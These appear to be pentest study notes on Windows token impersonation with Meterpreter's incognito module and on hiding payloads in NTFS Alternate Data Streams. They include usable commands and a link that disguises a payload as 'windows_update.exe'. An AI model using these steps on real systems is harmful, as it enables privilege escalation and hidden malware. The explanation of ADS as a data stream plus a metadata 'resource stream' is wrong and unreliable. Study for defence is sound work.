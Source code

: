 ### Access Token Impersonation

Windows Access Tokens are created by **winlogon.exe** (Windows login process, we open up our computers) and managed by **LSASS** (Local Security Authority Subsystem Service). It is like web cookies, but these tokens are temporary, generated whenever a user authenticates successfully, it includes the identity and privileges of that user. Then, it is attached to **userinit**.exe for further operations by that user for running under specified privileges of that user.

There 2 **security** levels of Windows tokes:

1. Impersonate: they can be impersonated on the local system, not on external systems that utilize tokens.
2. Delegate: can be impersonated both on local systems and external ones

**Privileges** that are required to do the impersonation attack (1 of 3):

1. **SeAssignPrimaryToken**: allows a user to impersonate tokens
2. **SeCreateToken**: allows a user to create an arbitrary token with administrator privileges
3. **SeImpersonatePrivilege**: allows a user to create a process under the security context of another user typically with administrator privileges

In Meterpreter session, we have **Incognito** module for impersonating tokens if we have 1 of 3 privileges that was specified above.

- `meterpreter > load incognito`
- `meterpreter > list_tokens -u` (user tokens)
- `meterpreter > impersonate_token '<username>'`
- `meterpreter > pgrep explorer`
- `meterpreter > migrate <explorer_id>`
- ***doing this until we find the **administrator** account

## Windows File System Vulnerabilities (ADS)

**ADS** - Alternate Data Streams is a NTFS (New Technology File System - Windows file system) file attribute.

File attribute contains information about a file.

**ADS** has 2 streams/parts:

1. **Data** Stream - the actual data of a file
2. **Resource** Stream - the metadata of a file (owner, creation data, file size, etc)

Attacker can use ADS to **hide** payloads in the Resource Stream from detection

**Powershell** commands:

- `notepad test.txt` - creating a file
- `del test.txt` - removing a file
- `notepad test.txt:secret.txt` - hiding a file inside of a **resource stream of test.txt**
- `type payload.exe > legitimate.txt:winpeas.exe` - **copies** payload.exe into a new file (winpeas.exe), then **hides** it in legitimate.txt
- `del payload.exe` - deleting after copying into the resource stream of legitimate.txt
- `start legitimate.txt:winpeas.exe` - doesn’t work because there is no program for executing the file.
- `C:\Windows\system32> mklink windows_update.exe C:\Temp\legitimate.txt:winpeas.exe` - creates a link for execution, when we type `windows_update`, it executes `winpeas.exe`

